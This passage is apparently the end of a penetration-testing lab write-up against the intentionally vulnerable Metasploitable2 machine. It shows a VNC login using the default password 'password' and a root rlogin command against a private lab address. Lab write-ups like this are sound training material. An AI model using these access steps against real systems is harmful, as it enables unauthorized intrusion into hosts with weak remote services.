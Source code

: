 **Exploit:**
```
vncviewer 192.168.179.134:5900
```

![](/assets/img/metasploitable2/Pasted image 20220511183852.png)

**Password:** `password` (based from the Nessus scan)

![](/assets/img/metasploitable2/Pasted image 20220511183957.png)

![](/assets/img/metasploitable2/Pasted image 20220511184043.png)

### 4. Gain access using rlogin
**Vulnerability:** rexecd Service Detection
- The rexecd service is running on the remote host. This service is design to allow users of a network to execute commands remotely. However, rexecd does not provide any good means of authentication, so it may be abused by an attacker to scan a third-party host.

**Information:**
```
512/tcp   open  exec        netkit-rsh rexecd
```

**Exploit:**
```
rlogin -l root 192.168.179.134
```

![](/assets/img/metasploitable2/Pasted image 20220511190005.png)

***

That's all, thank you for reading.


